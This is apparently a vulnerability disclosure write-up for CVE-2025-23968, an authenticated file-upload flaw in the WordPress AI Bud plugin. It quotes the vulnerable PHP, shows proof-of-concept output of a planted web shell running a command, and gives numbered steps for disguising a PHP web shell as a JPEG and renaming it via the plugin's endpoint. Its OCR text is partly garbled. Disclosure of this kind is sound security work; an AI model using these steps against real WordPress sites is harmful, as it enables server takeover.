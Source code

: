 +++
title = 'AI Bud – AI Content Generator, AI Chatbot, ChatGPT, Gemini, GPT-4o'
date = 2025-07-03T00:00:00+00:00
hideToc = true
tags = ["CVE", "WordPress", "AI Bud"]
description = "CVE-2025-23968: WordPress AI Bud plugin file upload vulnerability allowing arbitrary file uploads and potential RCE."
+++
### CVE-2025-23968

The [AI Bud](https://wordpress.org/plugins/aibuddy-openai-chatgpt/) plugin exposes a REST API endpoint `/wp-json/ai-buddy/v1/wp/attachments` that allows uploading files to the WordPress media library. The endpoint’s file logic contains file renaming functionality that triggers after file type validation, and allows the attacker to rename the uploaded file to any extension (including.php) allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits

A POC [cve-2025-23968.py](https://github.com/d0n601/CVE-2025-23968/blob/master/cve-2025-23968.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```
python cve-2025-23968.py https://lab 1 .hacker admin PASSWORD
Logging into: https://lab 1 .hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
Executing test command: ip addr

<pre> 1 : lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN
group default qlen 1000
    link/loopback 00 : 00 : 00 : 00 : 00 : 00 brd 00 : 00 : 00 : 00 : 00 : 00
    inet 127. 0. 0. 1 / 8 scope host lo
        valid_lft forever preferred_lft forever
    inet 6 :: 1 / 128 scope host
        valid_lft forever preferred_lft forever
2 : eth 0 : <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
group default qlen 1000
    link/ether 08 : 00 : 27 : 5 b: 34 : 2 f brd ff:ff:ff:ff:ff:ff
altname enp 0 s 3
    inet 10. 0. 2. 15 / 24 metric 100 brd 10. 0. 2. 255 scope global dynamic eth 0
        valid_lft 75700 sec preferred_lft 75700 sec
    inet 6 fd 17 : 625 c:f 037 : 2 :a 00 : 27 ff:fe 5 b: 342 f/ 64 scope global dynamic
mngtmpaddr noprefixroute
        valid_lft 86174 sec preferred_lft 14174 sec
    inet 6 fe 80 ::a 00 : 27 ff:fe 5 b: 342 f/ 64 scope link
        valid_lft forever preferred_lft forever
3 : eth 1 : <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
group default qlen 1000
    link/ether 08 : 00 : 27 : 39 :ea:eb brd ff:ff:ff:ff:ff:ff
altname enp 0 s 8
    inet 192. 168. 56. 56 / 24 brd 192. 168. 56. 255 scope global eth 1
        valid_lft forever preferred_lft forever
    inet 6 fe 80 ::a 00 : 27 ff:fe 39 :eaeb/ 64 scope link
        valid_lft forever preferred_lft forever
4 : docker 0 : <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue
state DOWN group default
    link/ether 02 : 42 : 6 f: 4 c: 3 e:ed brd ff:ff:ff:ff:ff:ff
    inet 172. 17. 0. 1 / 16 brd 172. 17. 255. 255 scope global docker 0
        valid_lft forever preferred_lft forever
</pre>
```

## Details

The plugin registers its REST API routs in `/wp-content/plugins/aibuddy-openai-chatgpt/src/Rest.php`

Lines 250-284 register the REST route for the `/wp/attachments` endpoint. The callback function is defined as `create_attachment`:

```php
register_rest_route(
    $namespace,
    '/wp/attachments',
    array(
        'methods' => 'POST',
        'permission_callback' => array( AuthGate::class, 'authorized'
    ),
        'callback' => array( $this, 'create_attachment' ),
    'args' => array(
    'title' => array(
    'required' => true,
    'type' => 'string',
    ),
    'caption' => array(
    'required' => true,
    'type' => 'string',
    ),
    'alt' => array(
    'required' => true,
    'type' => 'string',
    ),
    'description' => array(
    'required' => true,
    'type' => 'string',
    ),
    'url' => array(
    'required' => true,
    'type' => 'string',
    ),
    'filename' => array(
    'required' => false,
    'type' => 'string',
    ),
),
```


The `create_attachment` function is defined on Line 709, and the renaming logic starts at Line 744. As seen in the snippet below, if the `$filename` parameter is specified it can be used to rename an existing attachment (unsanitized):

```php
// strip possible path from filename
$filename = basename( sanitize_text_field( $request->get_param( 'filename'
) ) );
if (! empty( $filename ) ) {
    $file = get_attached_file( $attachment_id, true );
    $dir = dirname( $file );
    $new_file = $dir. '/'. $filename;
    if ( file_exists( $new_file ) ) {
        $new_file = $dir. '/'. uniqid(). '-'. $filename;
    }
    $this->move_file( $file, $new_file );
    update_attached_file( $attachment_id, $new_file );
}
```
## Manual Reproduction

The .php Renaming Attack

1. Attacker prepares a file calledshell.jpgwith the following qualities (see example).
    1. File containsmagic bitsfor jpg `FF D8 FF E0`.
    2. File has `.jpg` extension.
    3. File contains php code for a web shell.
2. The attacker hostsshell.jpgon a server they control (like Github).
3. The attacker sends a POST request to `/wp-json/ai-buddy/v1/wp/attachments` with:
    1.url: the URL toshell.jpg
    2.filename:shell.php
4. The attacker accesses `/wp-content/uploads/YEAR/MONTH/shell.php` and executes arbitrary
    PHP code.


